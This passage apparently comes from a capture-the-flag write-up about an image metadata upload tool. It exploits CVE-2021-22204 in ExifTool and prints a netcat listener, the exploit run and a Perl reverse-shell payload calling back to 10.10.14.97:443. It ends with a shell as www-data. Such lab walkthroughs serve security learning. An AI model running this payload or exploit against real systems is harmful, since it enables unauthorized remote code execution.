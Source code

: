 Based on this behavior, it appears that MetaView works via the following algorithm:

1. Receive file
2. Save file to `/metaview/uploads`
	- Apache is configured to restrict access to this directory
3. Get the file's Exif data (the tool's output is remarkably similar to `exiftool`'s)
	- Option 1: execute `exiftool /metaview/uploads/$FILENAME`
	- Option 2: use a PHP Exif library
4. Parse the output
	- If the output's `Error` attribute is `File is empty`, return `The file is empty`
	- If the output's `Warning` attribute is `Unsupported file type`, return `File not allowed (only jpg/png)`
	- Else, the output is good to go
5. (Maybe) Remove file from `/metaview/uploads/`
6. Return the output

Command injection seems impossible, indicating that either `$FILENAME` is being sanitized or MetaView is using a PHP Exif library.

Either way, [CVE-2021-22204](https://github.com/AssassinUKG/CVE-2021-22204) seems to have a lot of potential: "Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image." The exploit embeds a reverse shell command in an image's metadata, uniquely crafted to exploit the vulnerability.

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Run the exploit.

```bash
$ CVE-2021-22204/CVE-2021-22204.sh "reverseme 10.10.14.97 443" image1.jpg
   _____   _____   ___ __ ___ _    ___ ___ ___ __  _ _
  / __\ \ / / __|_|_  )  \_  ) |__|_  )_  )_  )  \| | |
 | (__ \ V /| _|___/ / () / /| |___/ / / / / / () |_  _|
  \___| \_/ |___| /___\__/___|_|  /___/___/___\__/  |_|

Creating payload
IP: 10.10.14.97
PORT: 443
(metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('10.10.14.97')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};};")


    1 image files updated

Finished
```

Upload the image and receive a reverse shell as `www-data`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.146.212] 40668
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---